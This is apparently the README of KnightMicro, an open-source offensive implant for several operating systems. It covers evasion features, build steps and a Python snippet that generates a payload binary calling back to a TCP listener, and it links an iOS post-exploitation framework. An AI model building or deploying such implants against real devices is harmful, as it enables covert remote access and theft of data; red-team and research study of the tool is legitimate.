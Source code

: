 # Friendly like a Pony

```shell
                    /
               ,.. /
             ,'   ';
  ,,.__    _,' /';  .
 :','  ~~~~    '. '~
:' (   )         )::,
'. '. .=----=..-~  .;'
 '  ;'  ::   ':.  '"
   (:   ':    ;)
    \\   '"  ./
     '"      '"
```

KnightMicro is an implementation of an advanced payload written in pure C and designed for portability and extensibility.

This repository contains KnightMicro, which is supposed to work on *MacOS*, *Linux*, *Windows* and *iOS*, but can be ported to almost every POSIX system. KnightMicro is optimized to work with or without [HatSploit Framework](https://github.com/EntySec/HatSploit).

## Features

* Portable C code that can be compiled for a big range of targets.
* Support for *MacOS*, *Linux*, *Windows* and *iOS* targets.
* Small executable with low resource utilization optimized for embedded systems.
* Dynamically-extendable, supports loading plugins (TABs) which extend its functionality.
* Evasion techniques such as process migration and in-memory loading.

## Installing

To install KnightMicro you simply need to install [HatSploit Framework](https://github.com/EntySec/HatSploit) and this will make KnightMicro available automatically.

```python
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building

**Building dependencies:**

```
make TARGET=<target>
```

**NOTE:** For *macOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>armv5b-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>MacOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

**Building sources:**

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -B build
cmake --build build
```

**NOTE:** For *MacOS / iOS* targets you are required to set `CMAKE_OSX_SYSROOT` to the desired SDK path with `-D`. For example:

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -DCMAKE_OSX_SYSROOT=<path> -B build
```

**NOTE:** Toolchains are located at `toolchain/cmake/`.

These are other `cmake` build options:

* `MAIN` - Should be `ON` if you want to build a source file to executable.
* `SOURCE` - Custom executable source file (default are in `src/main/`).
* `DEBUG` - Should be `ON` if you want to build KnightMicro in debug mode.
* `BUNDLE` - Build as bundle (macOS specific flag, adds `-bundle`)

## Basic usage

To use KnightMicro and build payloads you should import it to your source.

```python3
from KnightMicro import KnightMicro
from KnightMicro.session import KnightMicroSession
```

* `KnightMicro` - KnightMicro object that is used to generate payload implant.

```python3
KnightMicro = KnightMicro(
    target='aarch64-apple-darwin',
    options={
        'uri': 'tcp://127.0.0.1:8888'
    }
)

with open('payload.exe', 'wb') as f:
    f.write(KnightMicro.to_binary())
```

* `KnightMicroSession` - Wrapper for `HatSploitSession` for KnightMicro, HatSploit should use it with KnightMicro payload. It might also be used without HatSploit as demonstrated in `examples/listener.py`.

## Projects

* [SeaShell Framework](https://github.com/EntySec/SeaShell) - iOS post-exploitation framework that enables you to access the device remotely, control it and extract sensitive information. SeaShell actively uses KnightMicro implant to communicate with iOS.

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved, so any contribution is welcome. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.

# Thanks To
>- EntySec
